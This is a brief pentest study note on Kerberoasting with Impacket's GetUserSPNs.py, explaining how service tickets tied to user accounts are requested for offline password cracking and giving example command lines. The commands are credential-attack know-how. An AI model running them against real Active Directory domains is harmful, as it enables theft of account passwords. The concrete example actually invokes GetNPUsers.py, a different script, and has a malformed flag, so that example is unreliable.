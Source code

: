 # Usage
Impacket’s GetUserSPNs.py will attempt to fetch Service Principal Names that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account’s password, which can then be bruteforced offline.

## user for

Queries target domain for SPNs that are running under a user account 

## Example
```
GetUsersSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request

/GetNPUsers.py cs.org/kai.bel:password1 -dc-ip 192.168.200.129 -request -format hashcat - outputfile outputfile.txt


```



---
Tags: #AD #kerberos #impackets #kerberostaing #kerberos
Resources: [Impacket](https://github.com/fortra/impacket)